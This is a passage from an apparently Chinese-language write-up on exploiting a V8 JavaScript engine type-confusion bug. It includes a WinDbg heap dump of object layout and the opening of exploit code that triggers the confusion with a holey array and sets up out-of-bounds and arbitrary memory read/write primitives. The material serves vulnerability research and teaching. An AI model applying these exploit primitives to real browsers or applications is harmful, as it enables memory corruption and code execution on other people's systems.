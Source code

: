 ```
    #a: 24582 (const data field 0)
    #b: 0x009d0808811d <JSArray[1]> (const data field 1)
 }
0000009D08244BA9: [Map]
 - type: JS_OBJECT_TYPE
 - instance size: 20
 - inobject properties: 2
 - elements kind: HOLEY_ELEMENTS
 - unused property fields: 0
 - enum length: invalid
 - stable_map
 - back pointer: 0x009d08244b81 <Map(HOLEY_ELEMENTS)>
 - prototype_validity cell: 0x009d08180451 <Cell value= 1>
 - instance descriptors (own) #2: 0x009d080881e9 <DescriptorArray[2]>
 - prototype: 0x009d08200f99 <Object map = 0000009D082401C1>
 - constructor: 0x009d08200fb5 <JSFunction Object (sfi = 0000009D0818245D)>
 - dependent code: 0x009d080401ed <Other heap object (WEAK_FIXED_ARRAY_TYPE)>
 - construction counter: 0

0:000> dd 0x009d0808810d-1 L30
0000009d`0808810c  08040a3d 00000002 9999999a 3ff19999
0000009d`0808811c  08241891 080406e9 0808810d 00000002
0000009d`0808812c  08241189 080406e9 080406e9 00000010
0000009d`0808813c  00000000 00000000 00000000 00000003
0000009d`0808814c  00000000 00000000 00000000 00000000
0000009d`0808815c  08040489 00000020 00000000 00000000
0000009d`0808816c  00000000 00000000 08240671 080406e9
0000009d`0808817c  0808815d 0808812d 00000000 00000000
0000009d`0808818c  00000010 00000000 00000002 00000000
0000009d`0808819c  00000007 0000009d 0808815d 00000000
0000009d`080881ac  00000000 00000000 00000000 08244ba9  // map
0000009d`080881bc  080406e9 080406e9 0000c00c 0808811d  // elements properties obj_leaker.a obj_leaker.b


```

相对偏移为`0x16`，这一步只需要出动我们的越界读写就可以了。

```
// 地址泄露

let vuln_array = [,,,,,,,,,,,, 6.1, 7.1, 8.1];  // 创建时的类型是HOLEY_DOUBLE_ELEMENTS
var oob_array;                                  // 用来将类型混淆转化为越界读写
var uint64_arw;                                 // 构造任意地址读写
vuln_array.pop();
vuln_array.pop();
vuln_array.pop();

// obj_leader的偏移
var obj_leader_offset;
// uint64_arw中三个关键值的相对偏移
var uint64_length_offset;   
var uint64_externalptr_offset;
var uint64_baseptr_offset;  
// 保存uint64_arw的三个关键值
var uint64_length;
var uint64_externalptr_ptr;
var uint64_baseptr_ptr;
// 指针压缩下的高32位地址
var compress_head_high32_addr;

// 用来实现类型转换
var buf =new ArrayBuffer(16);
```